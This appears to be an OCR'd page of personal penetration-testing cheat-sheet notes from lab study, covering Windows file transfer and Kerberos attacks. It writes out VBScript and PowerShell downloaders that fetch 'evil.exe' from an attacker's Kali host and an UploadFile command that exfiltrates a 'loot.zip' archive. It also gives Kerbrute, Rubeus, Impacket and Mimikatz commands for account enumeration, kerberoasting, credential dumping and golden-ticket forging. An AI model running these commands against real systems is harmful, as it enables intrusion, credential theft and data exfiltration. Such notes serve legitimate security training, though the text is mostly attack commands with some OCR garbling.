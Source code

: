 	echo  http.Open "GET", strURL, False >> wget.vbs 
	echo  http.Send >> wget.vbs 
	echo  varByteArray = http.ResponseBody >> wget.vbs 
	echo  Set http = Nothing >> wget.vbs 
	echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs 
	echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs 
	echo  strData = "" >> wget.vbs 
	echo  strBuffer = "" >> wget.vbs 
	echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs 
	echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
	echo  Next >> wget.vbs 
	echo  ts.Close >> wget.vbs
SAMPLE USAGE:
`cscript wget.vbs http://$kaliIP/evil.exe evil.exe` 

### Similar script builder for powershell:
	echo $webclient = New-Object System.Net.WebClient >>wget.ps1 
	echo $url = "http://[IP]/evil.exe" >>wget.ps1 
	echo $file = "new-exploit.exe" >>wget.ps1 
	echo $webclient.DownloadFile($url,$file) >>wget.ps1

Usage: 
	- `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1` 
	- `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$kaliIP/winPEAS.bat, 'winpeas.bat')`

### exe2hex
exe2hex converts to a script that recreates the file from hex string via non-interactive methods:

`powershell.exe (New-Object System.Net.WebClient).UploadFile('C:\Users\Administrator\loot.zip', 'http://$kaliIP$/20220204195540_loot.zip')`

## Kerberos 
You can use Kerbrute to enumerate accounts without ever having to exploit a machine:
`kerbrute userenum --dc [IP] -d CONTROLLER.local /home/kali/Documents/TryHackMe/Labs/Attacking_Kerberos/User.txt`
-Note you will need to add an entry to your /etc/hosts file.

### Rubeus (local)
https://github.com/GhostPack/Rubeus
- `Rubeus.exe harvest /interval:30` - to harvest tickets
- `rubeus.exe kerberoast`-  to get hashes of kerberoastable accounts.  Use bloodhound to see if they are worth anything.
- `Rubeus.exe asreproast`
	- can be cracked with hashcat
	- YOU MAY NEED TO ADD 23$ TO THE HASH!! PAY ATTENTION TO THE FORMAT!!!

### Impacket (remote)
Impacket-GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip [IP] -request

### Mimikatz
- Can be used to dump creds, but it can also be used to gain Domain Admin tickets and impersonate them.  Obviously great for privesc.
- Steps:
	- `mimikatz.exe`
	- `privilege::debug` - if you run and don't get 20, it won't work
	- `sekurlsa::tickets /export` - to export tickets on machine. 
		- we can impersonate the ticket.  Recommend using an admin ticket...duh kerberos::ptt $ticket
	- `lsadump::lsa /patch` - If you are on a DC you can dump the hashes
	- `lsadump::lsa /inject /name:krbtgt` - can also create a golden ticket on a DC:
		- kerberos::golden /user: /domain: /sid: /krbtgt: /id:
		- you can access any machine in the domain
			- `misc::cmd`